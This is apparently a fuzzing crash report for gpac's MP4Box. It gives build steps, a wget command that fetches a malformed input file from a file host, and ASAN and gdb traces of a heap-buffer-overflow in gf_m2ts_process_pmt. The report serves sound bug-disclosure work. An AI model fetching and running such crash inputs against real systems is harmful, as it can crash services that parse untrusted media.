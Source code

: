 ## POC URL
https://github.com/gpac/gpac/issues/1421

## Compilation Environment
- Ubuntu 18.04.6 LTS, X64
- gcc version 7.4.0
- gpac (latest master 4a7a63)

## Run Command
```
wget https://www.mediafire.com/file/crsh1.zip/file -O crsh1.zip
unzip crsh1.zip
./MP4Box -dash 1000 crsh1
```

## Compile Command:
$ CC="gcc -fsanitize=address -g" CXX="g++ -fsanitize=address -g" ./configure --static-mp4box
$ make

## Run Command:
./MP4Box -dash 1000 crsh1

## ASAN info:

=================================================================
==9568==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x602000000491 at pc 0x55a56f2ac689 bp 0x7fff440c4d00 sp 0x7fff440c4cf0
READ of size 1 at 0x602000000491 thread T0
    #0 0x55a56f2ac688 in gf_m2ts_process_pmt media_tools/mpegts.c:2163
    #1 0x55a56f29e975 in gf_m2ts_section_complete media_tools/mpegts.c:1610
    #2 0x55a56f29f3ab in gf_m2ts_gather_section media_tools/mpegts.c:1740
    #3 0x55a56f2a519e in gf_m2ts_process_packet media_tools/mpegts.c:3446
    #4 0x55a56f2a519e in gf_m2ts_process_data media_tools/mpegts.c:3507
    #5 0x55a56f2b4886 in gf_m2ts_probe_file media_tools/mpegts.c:4641
    #6 0x55a56f1dc7f0 in gf_dash_segmenter_probe_input media_tools/dash_segmenter.c:5505
    #7 0x55a56f20350a in gf_dasher_add_input media_tools/dash_segmenter.c:6669
    #8 0x55a56eddea6f in mp4boxMain /home/dr3dd/fuzzing/gpac/applications/mp4box/main.c:4704
    #9 0x7f56187cfb96 in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x21b96)
    #10 0x55a56edcd7a9 in _start (/home/dr3dd/fuzzing/gpac/bin/gcc/MP4Box+0x1657a9)

0x602000000491 is located 0 bytes to the right of 1-byte region [0x602000000490,0x602000000491)
allocated by thread T0 here:
    #0 0x7f5619457b50 in __interceptor_malloc (/usr/lib/x86_64-linux-gnu/libasan.so.4+0xdeb50)
    #1 0x55a56f29dfb5 in gf_m2ts_section_complete media_tools/mpegts.c:1550
    #2 0x55a56f664196  (/home/dr3dd/fuzzing/gpac/bin/gcc/MP4Box+0x9fc196)

SUMMARY: AddressSanitizer: heap-buffer-overflow media_tools/mpegts.c:2163 in gf_m2ts_process_pmt
Shadow bytes around the buggy address:
  0x0c047fff8040: fa fa 00 00 fa fa 00 00 fa fa 00 00 fa fa 00 00
  0x0c047fff8050: fa fa 00 00 fa fa 00 00 fa fa 00 00 fa fa 00 00
  0x0c047fff8060: fa fa 00 00 fa fa 00 00 fa fa 00 00 fa fa 00 00
  0x0c047fff8070: fa fa 00 00 fa fa 00 00 fa fa 00 00 fa fa 00 00
  0x0c047fff8080: fa fa 00 00 fa fa 03 fa fa fa 00 00 fa fa 00 00
=>0x0c047fff8090: fa fa[01]fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff80a0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff80b0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff80c0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff80d0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff80e0: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==9568==ABORTING
## gdb Info:

Program received signal SIGSEGV, Segmentation fault.
0x0000555555d47488 in gf_m2ts_process_pmt (ts=<optimized out>, pmt=<optimized out>, sections=<optimized out>, table_id=<optimized out>, ex_table_id=<optimized out>, 
    version_number=<optimized out>, last_section_number=<optimized out>, status=<optimized out>) at media_tools/mpegts.c:2541
2541			if (es->stream_type == GF_M2TS_VIDEO_HEVC) nb_hevc++;
(gdb) bt
#0  0x0000555555d47488 in gf_m2ts_process_pmt (ts=<optimized out>, pmt=<optimized out>, sections=<optimized out>, table_id=<optimized out>, ex_table_id=<optimized out>, 
    version_number=<optimized out>, last_section_number=<optimized out>, status=<optimized out>) at media_tools/mpegts.c:2541
#1  0x0000555555d35506 in gf_m2ts_section_complete (ts=ts@entry=0x5555562c5a40, sec=sec@entry=0x5555562d74a0, ses=ses@entry=0x5555562d73f0) at media_tools/mpegts.c:1610
#2  0x0000555555d3638a in gf_m2ts_gather_section (ts=ts@entry=0x5555562c5a40, sec=0x5555562d74a0, ses=ses@entry=0x5555562d73f0, data=0x7ffffffa680d "", 
    data@entry=0x7ffffffa67ef "", data_size=<optimized out>, hdr=<optimized out>, hdr=<optimized out>) at media_tools/mpegts.c:1740
#3  0x0000555555d3f3be in gf_m2ts_process_packet (data=0x7ffffffa67ef "", ts=0x5555562c5a40) at media_tools/mpegts.c:3446
#4  gf_m2ts_process_data (ts=ts@entry=0x5555562c5a40, data=data@entry=0x7ffffffa66e0 "\377\377\377\376zWCG@", data_size=<optimized out>) at media_tools/mpegts.c:3507
#5  0x0000555555d54ca1 in gf_m2ts_probe_file (fileName=<optimized out>) at media_tools/mpegts.c:4641
#6  0x0000555555bf0844 in gf_dash_segmenter_probe_input (io_dash_inputs=io_dash_inputs@entry=0x5555562c4978, nb_dash_inputs=nb_dash_inputs@entry=0x5555562c4980, 
    idx=idx@entry=0) at media_tools/dash_segmenter.c:5505
#7  0x0000555555c2dabb in gf_dasher_add_input (dasher=0x5555562c4970, input=<optimized out>) at media_tools/dash_segmenter.c:6669
#8  0x00005555555c88f5 in mp4boxMain (argc=<optimized out>, argv=<optimized out>) at main.c:4704
#9  0x00007ffff722bb97 in __libc_start_main () from /lib/x86_64-linux-gnu/libc.so.6
#10 0x00005555555a3e0a in _start () at main.c:5985
(gdb)